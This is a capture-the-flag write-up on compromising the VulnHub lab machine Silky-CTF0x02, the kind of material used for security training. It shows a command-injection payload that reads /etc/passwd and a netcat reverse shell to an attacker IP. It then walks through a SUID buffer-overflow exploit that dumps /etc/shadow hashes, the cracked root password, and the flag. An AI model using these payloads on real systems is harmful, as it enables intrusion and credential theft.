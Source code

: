 # Silky-CTF0x02 Writeup  
###### Author: Anthony Criscione (arc32x)
###### (.ova available on VulnHub)


## Info Gathering

### nmap -p- -T4 -A -v silky
- **Open Ports**
  - 22: OpenSSH 7.4p1
  - 80: Apache httpd 2.4.25

### dirb http://silky
- **Found Directories**
  - http://silky/admin.php (CODE:200|SIZE:3702)
  - http://silky/index.html (CODE:200|SIZE:10701)
  - http://silky/server-status (CODE:403|SIZE:293)

### nikto -h http://silky
- **Found nothing of interest**

### nikto -h "http://silky/admin.php?username=&password="
- OSVDB-44056: /admin.php/sips/sipssys/users/a/admin/user: SIPS v0.2.2 allows user account info (including password) to be retrieved remotely.

### Manual SQLi
- **Found nothing of interest**

### Manual RCE
- **Found RCE in username field (login box or URL)**
- Ex: silky/admin.php?username=pwd; ls; id; uname -a; cat /etc/passwd&password=test123


## Exploitation

### Established nc reverse shell through RCE in username field
  - Attacker: nc -lvp 4444
  - Target: nc 192.168.56.102 4444 -e /bin/sh
  - Better terminal with python: python -c "import pty; pty.spawn('/bin/bash')"


## Privilege Escalation

### sudo -l
- **Found nothing of interest (password required)**

### find / -perm -u=s -type f 2>/dev/null
- **Found suspicious program w/ SUID bit set: /home/silky/cat_shadow**
  - Moved to /home/silky and attempted to run **./cat_shadow**; password required
  - Tried with test password to observe behavior:

    ```bash
    www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow test123
    Trying to cat /etc/shadow
     Permisson denied! 
     0x00000000 != 0x496c5962
    www-data@Silky-CTF0x02:/home/silky$
    ```

### Program w/ SUID Bit Prints Shadow File
- Shadow file contains user passwords. Though a password is required to execute cat_shadow, **0x00000000 != 0x496c5962** suggests memory corruption (buffer overflow, etc.) might be possible to override the password and print the shadow file; while the SUID bit suggests we might be able to use the overflow to get a root shell directly through cat_shadow. Either should result in root access.

### Testing Buffer Overflow

```bash
www-data@Silky-CTF0x02:/home/silky$  
./cat_shadow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Trying to cat /etc/shadow
 Permisson denied! 
 0x41414141 != 0x496c5962
www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow $(python -c "print 'A'*100")
Trying to cat /etc/shadow
 Permisson denied! 
 0x41414141 != 0x496c5962
```

- **Found Oveflow**
  - Passing a large number of A's in as the password input results in **0x41414141**, which is AAAA (41 is A when converted from hex to ASCII, see ASCII table with *man ascii*).
  - We need to push **0x496c5962** to this location as indicated in the output inequality. To do so, we need to know how big the buffer is (ie. where the overflow occurs), and use this to pad our input string before pushing the expected value.
- **Finding Buffer Size**
  - We can use a random pattern of characters to find the desired offset using Metasploit's *msf-pattern_create* and *msf-pattern_offset*.
    - Attacker: msf-pattern_create -l 100
      - Pattern returned:  
        Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    - Target:  
      ./cat_shadow Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
      - Target returned: 0x63413163 != 0x496c5962
    - Attacker: msf-pattern_offset -q 63413163
      - Offset returned: Exact match at offset 64
  - So we need to pad our input with 64 characters to overflow the buffer, and then push the expected value into the next location in memory (which is what's being compared to). This can easily be done with python.

### Exploiting Buffer Overflow
- We just need to execute cat_shadow with our exploit string provided as the input password. We know we need to pad the input with 64 A's to overflow the buffer. After that we just need to append the expected hex values. However, due to little-endianness, these values need to be pushed in reverse (maintaining bytes, or hex pairs). Python makes all of this simple:
  - Target: ./cat_shadow $(python -c "print 'A'*64 + '\\x62\\x59\\x6c\\x49'")
- Exploit successful! The target shadow file is printed to the terminal.

> Trying to read /etc/shadow  
> Succes  
> Printing...  
> root:$6$L69RL59x$ONQl06MP37LfjyFBGlQ5TYtdDqEZEe0yIZIuTHASQG/dgH3Te0fJII/Wtdbu0PA3D/RTxJURc.Ses60j0GFyF/:18012:0:99999:7:::  
> daemon:*:18012:0:99999:7:::  
> [redacted]  
> silky:$6$F0T5vQMg$BKnwGPZ17UHvqZLOVFVCUh6CrsZ5Eu8BLT1/uX3h44wtEoDt9qA2dYL04CMUXHw2Km9H.tttNiyaCHwQQ..2T0:18012:0:99999:7:::  
> mysql:!:18012:0:99999:7:::  
> sshd:*:18012:0:99999:7:::  

- We could obtain silky's password if we wanted, but may as well get root.

### Cracking root Password
- Copied shadow file contents to attacker machine for cracking (saved as *silky_shadow*). Also printed and copied contents of */etc/passwd* (saved as *silky_passwd*).
- **unshadow silky_passwd silky_shadow > silky_john**
- **john silky_john --wordlist=/usr/share/wordlists/rockyou.txt**
- After some time, the cracked password is returned:  
  **greygrey	(root)**


## Privilege Escalation
- Finally we can *su root* with password *greygrey*.


## Capturing the Flag
- *cd /root && ls*
- *cat flag.txt*
- Flag obtained: **d1f258a6ec26dffbbdec79f68890a5e8**
